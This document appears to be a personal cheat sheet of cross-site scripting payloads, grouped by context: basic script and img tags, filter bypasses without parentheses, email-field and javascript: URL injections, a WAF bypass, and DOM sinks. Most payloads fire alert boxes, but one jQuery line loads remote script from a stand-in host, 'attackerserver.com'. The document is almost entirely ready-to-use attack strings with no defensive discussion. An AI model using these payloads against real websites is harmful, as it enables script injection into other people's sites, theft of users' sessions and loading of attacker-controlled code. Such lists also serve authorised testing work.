 # My collection of XSS

## Regular XSS
<script>alert(document.domain)</script>
"><img src=x onerror="alert(document.domain)"/>

## Filter
No parentheses
<script>onerror=alert;throw 1337</script>
No parentheses + semicolon
<script>{onerror=alert}throw 1337</script>

## Enabled jQuery
<body onpointerenter="jQuery.getScript('https:/' +'/attackerserver.com/inject.js')">

## email
Find: email field

Payload
"<svg/onload=confirm(1)>"@x.y

## Url / Link
Find: embeded URL from input

javascript://%250Aalert(1)
javascript://%250Aalert(1)//?1
javascript://%250A1?alert(1):0
javascript://https://domain.com/%250A1?alert(1):0

## Bypass WAF
<body%20alt=al%20lang=ert%20onmouseenter="top['al'+lang](/Piya/)

## DOM
Find: javascript to update an element or documents
1. innerHTML
2. outerHTML
3. document.write()
4. document.writeln()

Payload
<img+src+onerror=alert(1)>
javascript:alert(1)
